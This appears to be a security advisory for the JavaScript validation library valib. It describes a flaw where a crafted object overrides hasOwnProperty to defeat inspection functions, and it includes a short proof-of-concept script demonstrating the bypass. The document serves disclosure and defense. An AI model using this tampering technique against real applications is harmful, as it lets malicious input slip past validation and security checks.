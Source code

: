 # Overview

`valib` is a A standalone javascript library tailored for validation, this package is vulnerable to Internal Property Tampering.

A maliciously crafted JavaScript object can bypass several inspection functions provided by valib. Valib uses a built-in function `hasOwnProperty` from the unsafe user-input to examine an object. It is possible for a crafted payload to overwrite this function to manipulate the inspection results to bypass security checks.

# Proof of Concept

```
"use strict";
var valib = require('valib');
var json = {
    key1: null,
    key2: {
        url: "http://example.com"
    },
    key3: "17850",
    key4: "OK",
    key5: "2012-10-06T04:13:00 00:00",
    key6: [1, 2, 3],
    key7: "Yes"
};
json.hasOwnProperty = function(val) {return false;}
function test(userJson){
    console.log(valib.Object.isEmpty(userJson));
    console.log(valib.Object.countKeys(userJson));
    console.log(valib.Object.hasValue(userJson, "Yes"));
}
test(json);
```
